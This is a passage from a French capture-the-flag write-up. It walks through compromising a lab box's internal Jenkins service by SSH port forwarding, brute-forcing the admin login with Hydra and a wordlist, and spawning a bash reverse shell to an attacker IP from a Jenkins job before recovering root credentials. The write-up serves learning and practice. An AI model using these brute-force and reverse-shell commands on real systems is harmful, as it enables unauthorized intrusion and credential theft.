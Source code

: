 Mais inutile.

Dans le home de Aubreanna il y a un fichier **jenkins.txt** qui contient :
```
Internal Jenkins service is running on 172.17.0.2:8080
```
Il y a bien quelques chose quand on curl dessus:

```
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:
  
Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
-->

</body></html>
```
On va renvoyer le flux web vers moi via un SSH
```
ssh -L 4545:172.17.0.2:8080 aubreanna@10.10.116.71
```
Maintenant, depuis le navigateur, avec l'url **localhost:4545** on vois le résultat de **172.17.0.2:8080**.

Après une longue recherche infructueuse, je me laisse tenter par un brute force, sur la docs, il précise que l'identifiant par defaut est **admin**. On va bruteforce ce compte !

on va utiliser Hydra pour cela :

```
hydra -l admin -P /home/kali/Wordlist/rockyou.txt 127.0.0.1 -s 4545 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password"
```
On trouve le mdp ! :
```
[4545][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
```
On se connecte sur jenkins, on peu créer des taches qui execute des scripts.
On créer donc un revershell :
```
/bin/bash -i >& /dev/tcp/10.11.50.195/4444 0>&1
```

On a le revershell !
On va fouiller un peu
```
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```
On retourne sur la session SSH de Aubreanna
```
aubreanna@internal:/etc/phpmyadmin$ su - root
Password: 
```